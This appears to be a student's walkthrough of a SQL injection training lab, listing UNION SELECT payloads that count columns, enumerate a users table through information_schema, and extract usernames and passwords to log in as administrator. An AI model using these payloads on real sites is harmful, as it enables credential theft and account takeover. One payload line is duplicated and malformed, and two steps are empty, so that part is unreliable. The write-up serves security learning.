








# Lab: SQL Injection — Listing the Database Contents (Non-Oracle Databases)

## Objective
Exploit a SQL injection vulnerability to:
- Enumerate database tables
- Find the `users` table
- Extract usernames and passwords
- Log in as the administrator user

---

## Steps

1. Open the lab website.
2. Navigate to a product category (e.g., "Gifts").
3. injects payload into url after category value:

---

## Step 1: Determine Number of Columns Using UNION SELECT

### since it non oracle databases:

#### lets try those payloads:

#### ' UNION SELECT NULL,NULL-- 
#### ' UNION SELECT NULL,NULL-- HI

---

## Step 2: find data base content

### using sql cheet sheet

---

## Step 3: finding username and password column using the users_jqgvvv table

### lets use information_schema.columns to find those columns for users table

### PAYLOAD
#### ' UNION SELECT NULL,column_name FROM information_schema.columns WHERE table_name= UNION SELECT NULL,column_name FROM information_schema.columns WHERE table_name = 'users_jqgvvv'--

##### column_name : display all columns name
##### table_name : name of the table u want to display its columns

---

## Step 4: displaying usernames and passwords for each user

### ' UNION SELECT username_wpiuig,password_iqpuer FROM users_jqgvvv--

---

## Step 5: Login as Administrator:

---

## Explanation

### information_schema.tables → lists all tables in the database
### information_schema.columns → lists columns of a specific table
### users table contains sensitive credentials
### UNION SELECT allows extraction of this data
### Retrieved usernames and passwords can be used for authentication

## What I Learned
### How to enumerate database tables using information_schema.tables
### How to enumerate columns using information_schema.columns
### How to extract sensitive data from a database
### Real-world impact of SQL injection (data exfiltration & account takeover)

